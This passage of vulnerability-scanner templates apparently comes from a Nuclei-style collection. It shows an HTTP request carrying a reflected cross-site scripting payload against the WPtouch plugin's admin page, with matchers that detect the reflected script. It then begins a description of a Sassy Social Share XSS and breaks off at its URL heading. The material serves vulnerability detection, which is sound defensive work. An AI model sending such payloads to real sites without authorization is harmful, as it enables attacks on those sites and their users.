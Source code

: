 ```
GET /wp-admin/admin.php?page=wptouch-admin-license&a%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. ">\<script>alert(document.domain)\</script>

**Type - word**

- part - body
- words
  1. WPtouchCustom
  2. WPtouchAjax
  3. toplevel_page_wptouch-admin
- condition - or

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Sassy Social Share \<=3.3.3 - Cross-Site Scripting

## Description

- WordPress Sassy Social Share 3.3.3 and prior is vulnerable to cross-site scripting because certain AJAX endpoints return JSON data with no Content-Type header set and then use the default text/html. In other words, any JSON that has HTML will be rendered as such.

- severity - medium
- tags - xss,wp,wpscan,wordpress,wp-plugin,sassy

## Requests

- Method - GET

### URL
